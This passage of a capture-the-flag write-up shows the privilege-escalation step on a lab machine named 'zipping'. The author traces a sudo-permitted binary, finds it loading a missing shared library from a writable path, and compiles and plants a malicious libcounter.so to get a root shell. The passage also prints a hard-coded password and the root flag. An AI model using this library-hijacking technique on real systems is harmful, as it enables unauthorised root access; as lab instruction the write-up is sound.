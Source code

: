 ```
$ sudo /usr/bin/stock
Enter the password: St0ckM4nager

================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option:
```

Looking through the options we can view the stock file, edit the stock entries, and exit the program.

None of the options seem to have any capabilities, so lets run `strace /usr/bin/stock` to look at what the binary is calling.

After entering the password an entry of interest is seen:

`openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)`

Its referencing a file that doesn't exist, we could abuse this with sudo for a shell! I used the C shell file from [here](https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics#sudo-ld_preload).

```
$ gcc -fPIC -shared -o libcounter.so libcounter.c -nostartfiles
$ mv libcounter.so /home/rektsu/.config/
```

Running `sudo /usr/bin/stock` then entering the password gives us a root shell!

```
(remote) rektsu@zipping:/tmp$ sudo /usr/bin/stock
Enter the password: St0ckM4nager
root@zipping:/tmp# cat /root/root.txt
107cbf13ead882d8c94a466997b45138
```

Giving us our root flag! <mark>107cbf13ead882d8c94a466997b45138</mark>

Success!

![Success](submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).